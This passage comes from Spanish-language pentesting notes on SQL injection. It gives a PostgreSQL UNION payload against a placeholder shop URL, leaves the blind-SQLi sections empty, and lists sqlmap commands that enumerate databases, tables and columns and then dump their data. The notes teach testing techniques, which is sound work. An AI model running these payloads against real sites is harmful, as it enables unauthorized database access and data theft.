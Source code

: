 #### PostgreSQL

{% code fullWidth="false" %}
```
https://mitienda.com/products?categoria=Bañadores' union select NULL,version()-- -
```
{% endcode %}

## Blind SQL

### Boolean Based

### Time Based

## Automatizando SQLi (SQLMap)

Para detectar y explotar inyecciones SQL, existe una herramienta automatizada llamada SQLMap.

### Enumeración de las bases de datos

&#x20;Podemos usar el siguiente comando para enumerar bases de datos de un panel de login:

```bash
sqlmap -u http://dominio.com/login --forms --dbs --batch
```

### Enumerando las tablas de una base de datos

&#x20;Podemos usar el siguiente comando para enumerar tablas de una base de datos en específico. Donde "Basededatos" será el nombre de la base de datos de la que queramos enumerar las tablas:

```bash
sqlmap -u http://dominio.com/login --forms -D Basededatos --tables --batch
```

### Enumerando las columnas de una tabla

Podemos usar el siguiente comando para enumerar columnas de una tabla en específico. Donde "Basededatos" será el nombre de la base de datos de la tabla y "Tablaejemplo", será el nombre de la tabla de la que queramos enumerar las columnas:

<pre class="language-bash"><code class="lang-bash"><strong>sqlmap -u http://dominio.com/login --forms -D Basededatos -T Tablajemplo --columns --batch
</strong></code></pre>

### Volcado de los valores de las columnas

Una vez tenemos la base de datos, la tabla y la columna, solo nos falta volcar los datos. Para ello, ejecutamos el siguiente comando. Donde "Basededatos" será el nombre de la base de datos de la tabla y "Tablaejemplo", será el nombre de la tabla y "columna1" será el nombre de la columna de la que queremos ver/volcar los datos:

```bash
sqlmap -u http://dominio.com/login --forms -D Basededatos -T Tablajemplo -C columna1,columna2 --dump --batch
```
